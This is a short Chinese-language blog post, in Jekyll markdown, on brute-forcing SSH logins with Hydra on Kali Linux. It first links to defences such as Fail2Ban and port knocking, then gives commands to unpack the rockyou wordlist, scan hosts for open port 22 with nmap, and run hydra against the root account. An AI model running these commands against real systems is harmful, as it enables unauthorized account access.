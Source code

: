 ```yaml
---
layout: post
title: 使用Hydra破解ssh密码
---
```


Hydra是非常高效的网络登录破解器，它可以对多种服务程序执行暴力破解（SSH、VNC等等）。

防止这种攻击其实很容易，方法很多。以SSH为例：

* [Ubuntu：使用Port Knocking隐藏SSH端口](http://blog.topspeedsnail.com/archives/3936)
* [在Ubuntu中用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/262)
* [CentOS 7安装使用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/3119)
* [Debian使用Fail2Ban和Tinyhoneypot增加网络安全](http://blog.topspeedsnail.com/archives/3667)

*****

Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra。

xhydra：

![xhydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-26-48.png)

hydra：

![hydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-28-41.png)

我使用命令行版本：hydra

### 字典

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。使用前先解压：

{% highlight shell %}
# gzip -d /usr/share/wordlists/rockyou.txt.gz
{% endhighlight %}

### 使用nmap扫描开启SSH服务的主机

扫描SSH服务使用的22端口，确定可以施行破解的主机。

{% highlight shell %}
＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget
{% endhighlight %}

### 使用hydra暴力破解

{% highlight shell %}
# hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh
{% endhighlight %}

更多选项，查看man hydra。